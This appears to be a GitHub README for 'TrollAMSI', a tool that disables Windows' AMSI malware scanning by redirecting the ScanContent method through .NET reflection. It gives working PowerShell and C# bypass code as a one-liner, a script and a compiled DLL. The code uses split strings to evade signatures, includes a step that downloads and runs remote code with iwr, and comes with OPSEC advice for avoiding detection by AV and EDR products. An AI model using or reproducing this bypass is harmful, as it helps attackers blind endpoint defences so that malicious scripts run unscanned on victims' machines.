 # TrollAMSI
Matt Graeber first introduced the technique to bypass AMSI by using reflection in 2016. The technique primarily targets field attributes. **Source:** https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell?tab=readme-ov-file#Using-Matt-Graebers-Reflection-method. Here, we bring us back to 2016 by targetting methods which I call a new technique "Reflection with method swapping" (i.e essentially monkeypatching). In our specific case, we use reflection to get a handle to the "ScanContent" method and updates it to point to a method we control. Additionally, this opens doors for other techniques such as ETW and CLM possibly(?). AMSI bypasses are usually detected at 2 stages:
1. The attempt to bypass -> both static and dynamic
2. The bypass itself -> Post bypass, the signatures left behind

**The beauty of this technique as opposed to other AMSI bypass techniques such as byte patching etc for the 2 detections mentioned above is:**
1. There is a low detection surface:
    - statically: because the code profile is so short and it is hard to apply a signature on any part of the common .NET functionality used
    - dynmically: because of the lack of hooked win32 API calls 
2. Because we are modifying JIT/IL memory which is hard for AV/EDR to monitor or has not been monitored at this point by a lot of vendors

**Note: Technically speaking, PrepareMethod() in both the "raw powershell" and .cs versions should be called (especially for our method 'M') but works without it too**

## Benefits
- No P/Invoke or win32 API calls used such as VirtualProtect hence **WAAAAAY more opsec safe**
- No amsi.dll patching or byte patching for that matter
  
## Usage 

### Raw Powershell
```
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}
$o = [Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent
$t = [TrollAMSI].GetMethods() | Where-Object Name -eq 'M'
[System.Runtime.CompilerServices.RuntimeHelpers]::PrepareMethod($t.MethodHandle)  
[System.Runtime.CompilerServices.RuntimeHelpers]::PrepareMethod($o.MethodHandle)
[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]$t.MethodHandle.Value + [long]8)),0, [long]$o.MethodHandle.Value + [long]8,1)
```
### Raw Powershell One-Liner
```
class TrollAMSI{static [int] M([string]$c, [string]$s){return 1}}[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]([TrollAMSI].GetMethods() | Where-Object Name -eq 'M').MethodHandle.Value + [long]8)),0, [long]([Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent).MethodHandle.Value + [long]8,1)
```

### Add-Type
```
>$code = (iwr https://raw.githubusercontent.com/cybersectroll/TrollAMSI/main/TrollAMSI.cs).content
>Add-Type $code
>[TrollAMSI]::troll()
```
### Compiled x64
```
>c:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /t:library /out:TrollAMSI.dll TrollAMSI.cs /reference:c:\Windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll
>[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\TrollAMSI.dll"))
>[TrollAMSI]::troll()
```

## OPSEC
- STATIC: obfuscate "AmsiUtils" and "ScanContent" maybe?
- DYNAMIC: Nothing much really. Note that Add-Type method will leave disk artifacts, whereas hosting the compiled DLL on a webserver and using Load() is completely in memory

## TESTING
- Tested on win defender, 2 AV and 1 EDR 
- Eitherway security products pay greater emphasis to amsi.dll and the relevant winapi calls for byte patching which we do not touch
  
## Wishlist
- same technique should/could be applicable to bypass
  - ETW write
  - We can apply the same trick on CLM enforcement -> Refer to TrollCLM
  - maybe there's more?
## Credits
1. Matt Graeber original amsi bypass in 2016
2. https://github.com/calebstewart/bypass-clm


## Disclaimer
Should only be used for educational purposes!
